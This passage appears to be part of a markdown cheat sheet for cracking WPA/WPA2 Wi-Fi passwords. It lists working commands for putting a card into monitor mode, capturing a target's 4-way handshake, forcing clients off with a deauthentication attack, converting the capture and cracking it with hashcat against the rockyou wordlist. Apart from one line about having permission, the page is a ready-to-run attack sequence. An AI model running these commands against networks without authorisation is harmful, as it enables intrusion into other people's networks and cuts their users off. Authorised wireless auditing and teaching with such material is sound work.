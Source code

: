 - **Example with rockyou.txt**:
  ```shell-session
  hashcat -m 22000 mic_to_crack.hccapx /path/to/rockyou.txt --force
  ```

#### Tips for Successful Cracking

- **Use a Strong Wordlist**: The quality of the wordlist significantly impacts the success rate.
- **Consider Using Rules**: Hashcat supports rules to modify wordlist entries, increasing effectiveness.
- **Hardware Matters**: GPU-based cracking significantly speeds up the process.
- **Be Ethical**: Only perform these actions on networks you have permission to test.

### Cracking WPA/WPA2 Wireless Networks: Markdown Cheatsheet

#### Setting Up for Capture
```shell-session
# Start monitor mode on wlan0
sudo airmon-ng start wlan0

# Scan for wireless networks
sudo airodump-ng wlan0mon
```

#### Capturing the 4-way Handshake
```shell-session
# Capture handshake for a specific BSSID and channel
sudo airodump-ng --bssid [Target BSSID] -c [Channel] --write handshake wlan0mon
```

#### Deauthentication Attack (Optional)
```shell-session
# Deauthenticate a client to capture handshake
sudo aireplay-ng --deauth 10 -a [Target BSSID] -c [Client MAC] wlan0mon
```

#### Preparing Captured Data for Hashcat
```shell-session
# Convert .cap to Hashcat-readable format (.hc22000)
sudo hcxpcapngtool -o handshake.hc22000 handshake.cap
```

#### Cracking the Handshake with Hashcat
```shell-session
# Crack handshake using Hashcat with rockyou.txt wordlist
hashcat -m 22000 handshake.hc22000 /usr/share/wordlists/rockyou.txt
```

#### Additional Commands
```shell-session
# Installing necessary tools (if not already installed)
sudo apt install aircrack-ng hashcat

# Download popular wordlists like rockyou
wget https://example.com/rockyou.txt -O /usr/share/wordlists/rockyou.txt
```
